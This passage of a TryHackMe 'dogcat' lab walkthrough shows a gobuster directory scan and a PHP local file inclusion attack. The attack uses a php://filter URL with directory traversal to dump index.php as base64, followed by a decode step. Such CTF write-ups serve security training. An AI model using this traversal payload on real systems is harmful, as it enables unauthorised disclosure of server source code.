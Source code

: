 
3. Gobuster

    kali@kali-[10.8.82.167]:~/labs/tryhackme$ gobuster dir -u http://10.10.134.19/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

PHP File Inclusion

https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfilter

We can see through typing that the url has to have the words "dog" or "cat" inside it. Its wrapped in an include() function, and .php is added to the end of the text.

![](images/2020-08-23-22-25-50.png)

We know where index.php is located, so lets use php://filter like so:

http://10.10.134.19/?view=php://filter/convert.base64-encode/resource=./dog/../.././../../../var/www/html/index

This is just a simple directory traversal, and since we know that the .php extension is added onto the end, we don't need to type that into the URL.

Output: docs/index-base64.php

Since its in base64, we can decode using:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/dogcat/docs$ base64 -d index-base64.php > index.php

Output: docs/index.php

Let's take a look at the code:
